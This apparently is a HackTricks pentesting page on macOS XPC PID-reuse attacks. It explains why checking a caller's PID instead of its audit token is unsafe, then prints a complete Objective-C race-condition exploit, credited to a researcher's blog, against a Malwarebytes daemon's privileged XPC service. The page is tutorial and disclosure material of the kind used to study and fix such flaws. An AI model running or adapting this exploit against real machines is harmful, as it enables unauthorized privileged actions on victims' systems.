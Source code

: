 # macOS PID Reuse

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **and** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## PID Reuse

When a macOS **XPC service** is checking the called process based on the **PID** and not on the **audit token**, it's vulnerable to PID reuse attack. This attack is based on a **race condition** where an **exploit** is going to **send messages to the XPC** service **abusing** the functionality and just **after** that, executing **`posix_spawn(NULL, target_binary, NULL, &attr, target_argv, environ)`** with the **allowed** binary.

This function will make the **allowed binary own the PID** but the **malicious XPC message would have been sent** just before. So, if the **XPC** service **use** the **PID** to **authenticate** the sender and checks it **AFTER** the execution of **`posix_spawn`**, it will think it comes from an **authorized** process.

### Exploit example

If you find the function **`shouldAcceptNewConnection`** or a function called by it **calling** **`processIdentifier`** and not calling **`auditToken`**. It highly probable means that it's v**erifying the process PID** and not the audit token.\
Like for example in this image (taken from the reference):

<figure><img src="../../../../.gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>

Check this example exploit (again, taken from the reference) to see the 2 parts of the exploit:

* One that **generates several forks**
* **Each fork** will **send** the **payload** to the XPC service while executing **`posix_spawn`** just after sending the message.

{% hint style="danger" %}
For the exploit to work it's important to export export OBJC\_DISABLE\_INITIALIZE\_FORK\_SAFETY=YES or to put in th exploit:

```objectivec
asm(".section __DATA,__objc_fork_ok\n"
"empty:\n"
".no_dead_strip empty\n");
```
{% endhint %}

```objectivec
// from https://wojciechregula.blog/post/learn-xpc-exploitation-part-2-say-no-to-the-pid/

#import <Foundation/Foundation.h>
#include <spawn.h>
#include <sys/stat.h>

#define RACE_COUNT 32
#define MACH_SERVICE @"com.malwarebytes.mbam.rtprotection.daemon"
#define BINARY "/Library/Application Support/Malwarebytes/MBAM/Engine.bundle/Contents/PlugIns/RTProtectionDaemon.app/Contents/MacOS/RTProtectionDaemon"

// allow fork() between exec()
asm(".section __DATA,__objc_fork_ok\n"
"empty:\n"
".no_dead_strip empty\n");

extern char **environ;

// defining necessary protocols
@protocol ProtectionService
- (void)startDatabaseUpdate;
- (void)restoreApplicationLauncherWithCompletion:(void (^)(BOOL))arg1;
- (void)uninstallProduct;
- (void)installProductUpdate;
- (void)startProductUpdateWith:(NSUUID *)arg1 forceInstall:(BOOL)arg2;
- (void)buildPurchaseSiteURLWithCompletion:(void (^)(long long, NSString *))arg1;
- (void)triggerLicenseRelatedChecks;
- (void)buildRenewalLinkWith:(NSUUID *)arg1 completion:(void (^)(long long, NSString *))arg2;
- (void)cancelTrialWith:(NSUUID *)arg1 completion:(void (^)(long long))arg2;
- (void)startTrialWith:(NSUUID *)arg1 completion:(void (^)(long long))arg2;
- (void)unredeemLicenseKeyWith:(NSUUID *)arg1 completion:(void (^)(long long))arg2;
- (void)applyLicenseWith:(NSUUID *)arg1 key:(NSString *)arg2 completion:(void (^)(long long))arg3;
- (void)controlProtectionWithRawFeatures:(long long)arg1 rawOperation:(long long)arg2;
- (void)restartOS;
- (void)resumeScanJob;
- (void)pauseScanJob;
- (void)stopScanJob;
- (void)startScanJob;
- (void)disposeOperationBy:(NSUUID *)arg1;
- (void)subscribeTo:(long long)arg1;
- (void)pingWithTag:(NSUUID *)arg1 completion:(void (^)(NSUUID *, long long))arg2;
@end

void child() {

    // send the XPC messages
    NSXPCInterface *remoteInterface = [NSXPCInterface interfaceWithProtocol:@protocol(ProtectionService)];
    NSXPCConnection *xpcConnection = [[NSXPCConnection alloc] initWithMachServiceName:MACH_SERVICE options:NSXPCConnectionPrivileged];
    xpcConnection.remoteObjectInterface = remoteInterface;

    [xpcConnection resume];
    [xpcConnection.remoteObjectProxy restartOS];

    char target_binary[] = BINARY;
    char *target_argv[] = {target_binary, NULL};
    posix_spawnattr_t attr;
    posix_spawnattr_init(&attr);
    short flags;
    posix_spawnattr_getflags(&attr, &flags);
    flags |= (POSIX_SPAWN_SETEXEC | POSIX_SPAWN_START_SUSPENDED);
    posix_spawnattr_setflags(&attr, flags);
    posix_spawn(NULL, target_binary, NULL, &attr, target_argv, environ);
}

bool create_nstasks() {

    NSString *exec = [[NSBundle mainBundle] executablePath];
    NSTask *processes[RACE_COUNT];

    for (int i = 0; i < RACE_COUNT; i++) {
        processes[i] = [NSTask launchedTaskWithLaunchPath:exec arguments:@[ @"imanstask" ]];
    }

    int i = 0;
    struct timespec ts = {
        .tv_sec = 0,
        .tv_nsec = 500 * 1000000,
    };

    nanosleep(&ts, NULL);
    if (++i > 4) {
        for (int i = 0; i < RACE_COUNT; i++) {
            [processes[i] terminate];
        }
        return false;
    }

    return true;
}

int main(int argc, const char * argv[]) {

    if(argc > 1) {
        // called from the NSTasks
        child();

    } else {
        NSLog(@"Starting the race");
        create_nstasks();
    }

    return 0;
}obj
```

## Refereces

* [https://wojciechregula.blog/post/learn-xpc-exploitation-part-2-say-no-to-the-pid/](https://wojciechregula.blog/post/learn-xpc-exploitation-part-2-say-no-to-the-pid/)
* [https://saelo.github.io/presentations/warcon18\_dont\_trust\_the\_pid.pdf](https://saelo.github.io/presentations/warcon18\_dont\_trust\_the\_pid.pdf)

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **and** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud).

</details>
